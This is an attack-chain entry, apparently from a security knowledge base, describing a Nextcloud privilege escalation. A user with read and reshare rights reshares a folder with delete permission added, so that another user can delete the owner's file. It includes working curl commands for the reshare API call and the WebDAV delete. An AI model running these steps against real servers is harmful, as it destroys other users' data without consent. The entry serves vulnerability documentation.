

---
tags:
  - nextcloud
  - privilege-escalation
  - file-sharing
  - delete-permission
  - web-vuln
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Nextcloud-Create-and-Share-Folder]]'
  - '[[procedures/Nextcloud-Verify-Share-Permissions]]'
  - '[[procedures/Nextcloud-Reshare-with-Elevated-Delete-Permission]]'
  - '[[procedures/Nextcloud-Delete-File-via-Unauthorized-Access]]'
step_count: 5
techniques:
  - '[[Exploitation for Privilege Escalation]]'
updated_at: '2025-12-14T17:29:19.917Z'
description: >-
  A multi-stage privilege escalation attack in Nextcloud's file sharing system
  allowing recipients to add delete permissions when resharing, leading to
  unauthorized file deletion.
skill_level: intermediate
impact_level: high
id: b5680a08-cb4b-4920-a487-3127cc8c5820
validated: true
mitre_tactics:
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploitation for Privilege Escalation]]'
---
# Nextcloud Privilege Escalation via Unauthorized Delete Permissions on Reshare

Multi-stage attack chain demonstrating a complete privilege escalation workflow in Nextcloud's sharing system, where a user with read and reshare permissions can escalate to delete access by adding unauthorized permissions during reshare.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Nextcloud server (master branch or 16.x releases)
- Required services/ports: HTTP on port 8081 (or standard 80/443)
- Network access requirements: Authenticated access to Nextcloud as a user

### Initial Access Requirements

- Valid Nextcloud user credentials (e.g., User0, User1, User2)
- Network position: Internal or direct access to Nextcloud instance
- Prior access needed: Ability to create files and shares

## Detailed Attack Procedures

### Step 1: Create and Share Folder
procedure: [[procedures/Nextcloud-Create-and-Share-Folder]]

**Objective**: Set up a test folder and share it with read and reshare permissions to a recipient user.

**Instructions**: As User0, create a folder and file, then share the folder with User1 using permissions 17 (read + reshare).

**Expected Output**: Share created successfully; User1 receives the share.

**Success Indicators**:
- Folder /test and file /test/file.txt exist
- Share visible to User1 with read+reshare permissions

### Step 2: Verify Share Permissions
procedure: [[procedures/Nextcloud-Verify-Share-Permissions]]

**Objective**: Confirm that the recipient (User1) has only read access and cannot delete the file.

**Instructions**: Log in as User1 and attempt to read/download the file but verify deletion is blocked.

**Expected Output**: File readable, but delete attempts fail with permission error.

**Success Indicators**:
- Read access granted
- Delete permission denied

### Step 3: Reshare with Elevated Delete Permission
procedure: [[procedures/Nextcloud-Reshare-with-Elevated-Delete-Permission]]

**Objective**: Exploit the vulnerability by resharing the folder to User2 with added delete permissions (25: read + reshare + delete).

**Instructions**: Use the sharing API as User1 to reshare /test to User2 with permissions=25 via [[commands/nextcloud-reshare-with-delete-permission]]:

```bash
curl --user user1:user1 "http://172.17.0.1:8081/ocs/v1.php/apps/files_sharing/api/v1/shares" -H "OCS-APIRequest: true" -X POST --data 'path=/test&shareType=0&shareWith=user2&permissions=25'
```

**Expected Output**: OCS API response indicating successful share creation (status 100).

**Success Indicators**:
- Reshare created without error
- User2 receives the share with delete access

### Step 4: Delete File via Unauthorized Access
procedure: [[procedures/Nextcloud-Delete-File-via-Unauthorized-Access]]

**Objective**: Demonstrate escalation by having User2 delete the original file using the elevated permissions.

**Instructions**: As User2, delete /test/file.txt via WebDAV using [[commands/nextcloud-delete-file-via-dav]]:

```bash
curl --user user2:user2 "http://172.17.0.1:8081/remote.php/dav/files/user2/test/file.txt" -H "OCS-APIRequest: true" -X DELETE
```

**Expected Output**: 204 No Content response indicating successful deletion.

**Success Indicators**:
- File deleted from original owner's storage
- No permission errors for User2

### Step 5: Validate Impact

**Objective**: Confirm the unauthorized deletion affects the original owner (User0).

**Instructions**: Log in as User0 and check that /test/file.txt is missing.

**Expected Output**: File no longer exists in User0's view.

**Success Indicators**:
- Original file deleted without User0's consent
- Potential for broader impact if shared to groups including self

## Attack Chain Summary

### Key Achievements

1. Successfully escalated read+reshare permissions to include delete on reshare
2. Enabled unauthorized file deletion by a non-owner
3. Demonstrated propagation of implied delete permission from root mounts in View.php

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]]

### MITRE ATT&CK Tactics

- [[Privilege Escalation]]

---

*Last updated: 2023-10-01T00:00:00Z*
